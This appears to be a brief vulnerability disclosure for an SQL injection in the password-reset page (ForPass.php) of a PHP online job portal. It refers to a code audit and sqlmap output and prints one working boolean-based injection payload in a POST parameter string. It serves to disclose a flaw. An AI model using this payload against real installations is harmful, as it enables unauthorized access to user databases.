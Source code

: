 # SQL Injection in Online Job Portal - Forget Password Module

Source code: https://www.sourcecodester.com/php/14518/online-job-portal-php-full-source-code-2020.html

## Code Audit

In `ForPass.php`, the query is vulnerable to SQL injection.

![](./1.jpg)

## Result of Sqlmap

![](./2.jpg)

One of the payloads is:

```
rdUser=JobSeeker&txtUserName=aa' OR NOT 5555=5555-- ZRQC&cmbQue=What is Your Pet Name?&txtAnswer=bb&button2=Submit
```